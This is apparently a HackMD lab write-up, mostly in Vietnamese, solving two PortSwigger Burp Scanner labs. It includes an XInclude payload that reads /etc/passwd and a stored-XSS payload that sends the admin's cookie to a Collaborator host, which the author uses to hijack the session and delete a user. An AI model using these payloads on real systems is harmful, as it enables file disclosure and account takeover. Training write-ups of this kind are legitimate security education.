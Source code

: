 ```yaml
---
title: 'Web13: Essential skills'
tags: [web13]

---
```


# **1. Lab: Discovering vulnerabilities quickly with targeted scanning**
>This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.
Due to the tight time limit, we recommend using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a [targeted scan on a specific request](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing#scanning-a-specific-request). Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.
![image](https://hackmd.io/_uploads/rJiyiRvPC.png)

>Bài lab giới hạn ta 10 phút nên ta không thể tìm lỗ hổng bằng cách thủ công, thay vào đó ta sẽ sử dụng công cụ Scan của Burp! Ta sẽ đi tìm các endpoint khả nghi và scan ngại tại endpoint đó mà không cần tốn công scan cả web.

>Mỗi sản phẩm đều có chức năng Check Stock:
>![image](https://hackmd.io/_uploads/BJQD30vvC.png)

>Đây là endpoint đáng nghi ngờ khi nó send request với input mà ta có thể controll:
>![image](https://hackmd.io/_uploads/Hy99nRDwC.png)

>Chuột phải và chọn Active Scan cho endpoint này:
>![image](https://hackmd.io/_uploads/B1rn2CwvA.png)

>Sau khi đợi khoảng 3 phút thì Burp đã phát hiện 1 lỗi nghiêm trọng trong trang web **Out-of-band**:
>![image](https://hackmd.io/_uploads/BJkbaAPwC.png)

>Nó có thể khiến ứng dụng truy xuất nội dung của một URL bên ngoài tùy ý và trả về những nội dung đó trong phản hồi của chính nó, ta sẽ sử dụng payload mà scan sử dụng để truy xuất nội dung `/etc/passwd`:
>![image](https://hackmd.io/_uploads/rkYda0DwC.png)

>Payload:
>`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
`

>Thay payload vào trong request và send, ta nhận lại được nội dung file cần tìm:
>![image](https://hackmd.io/_uploads/HJWM0CwPC.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/rkb7ARvPR.png)

# **2. Lab: Scanning non-standard data structures**
>This lab contains a vulnerability that is difficult to find manually. It is located in a non-standard data structure.
To solve the lab, use [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner)'s **Scan selected insertion point** feature to identify the vulnerability, then manually exploit it and delete `carlos`.
You can log in to your own account with the following credentials: `wiener:peter`
![image](https://hackmd.io/_uploads/HyO-xkdvC.png)

>Đăng nhập vào `wiener`, tại request `GET /my-account?id=wiener`, ta thấy rằng session được lưu dưới dạng `username-random_token` với phần `username` dạng bản rõ:
>![image](https://hackmd.io/_uploads/r1n9mR_vR.png)

>Từ đó, ta đoán rằng server sẽ có cơ chế xử lí 2 giá trị đầu vào của cookie! Bôi đen phần `wiener`, chuột phải chọn **Scan selected insertion point**, ấn OK:
>![image](https://hackmd.io/_uploads/BkdtHAODC.png)

>Sau khi đợi khoảng 2 phút, sau khi Burp scan xong, ta thu được kết quả lab này dính lỗi Store XSS:
>![image](https://hackmd.io/_uploads/BJOkL0dP0.png)

>Ta sẽ tận dụng payload mà Burp phát hiện lỗi, gửi sang Repeater để khai thác tiếp:
>![image](https://hackmd.io/_uploads/BJK4IRODC.png)

>Ta sẽ sử dụng kĩ thuật Out-of-band sử dụng Collab để đọc được dữ liệu trả về từ server, payload:
```
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID
```

>Send request:
>![image](https://hackmd.io/_uploads/rJivPRuwR.png)

>Từ Collab, ta nhận được các request DNS và HTTPS:
>![image](https://hackmd.io/_uploads/H1OtwC_P0.png)

>Kết quả, do đã lưu trữ payload StoreXSS nên khi admin truy cập vào trang web đã bị dính XSS và ta nhận được cookie:
>![image](https://hackmd.io/_uploads/r1SfuAuvR.png)

>Có được session của admin, ta thay cookie vào trong session bằng cách mở DevTools:
>![image](https://hackmd.io/_uploads/ryZYFCOwA.png)

>Thành công truy cập được vào trang quản trị:
>![image](https://hackmd.io/_uploads/r1IqFAOvC.png)

>Xóa `carlos` và hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/SJ0oFROvR.png)
